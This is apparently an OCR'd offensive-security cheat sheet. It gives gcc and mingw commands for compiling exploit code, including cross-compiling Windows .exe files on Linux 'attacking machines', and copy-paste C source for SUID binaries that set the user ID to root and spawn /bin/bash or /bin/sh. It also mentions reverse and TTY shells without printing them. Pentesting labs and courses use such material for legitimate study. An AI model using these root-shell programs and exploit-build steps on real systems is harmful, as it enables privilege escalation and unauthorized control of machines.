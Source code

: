 COMMAND	DESCRIPTION
process.h, string.h, winbase.h, windows.h, winsock2.h

Windows exploit code

arpa/inet.h, fcntl.h, netdb.h, netinet/in.h, 
 sys/sockt.h, sys/types.h, unistd.h

Linux exploit code

Build Exploit GCC
Compile exploit gcc.

COMMAND	DESCRIPTION
gcc -o exploit exploit.c

Basic GCC compile

GCC Compile 32Bit Exploit on 64Bit Kali
Handy for cross compiling 32 bit binaries on 64 bit attacking machines.

COMMAND	DESCRIPTION
gcc -m32 exploit.c -o exploit

Cross compile 32 bit binary on 64 bit Linux

Compile Windows .exe on Linux
Build / compile windows exploits on Linux, resulting in a .exe file.

COMMAND	DESCRIPTION
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe

Compile windows .exe on Linux

SUID Binary
Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

SUID C Shell for /bin/bash
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       
SUID C Shell for /bin/sh
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
Building the SUID Shell binary
gcc -o suid suid.c  
For 32 bit:

gcc -m32 -o suid suid.c  
Reverse Shells
See Reverse Shell Cheat Sheet for a list of useful Reverse Shells.

TTY Shells
Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.
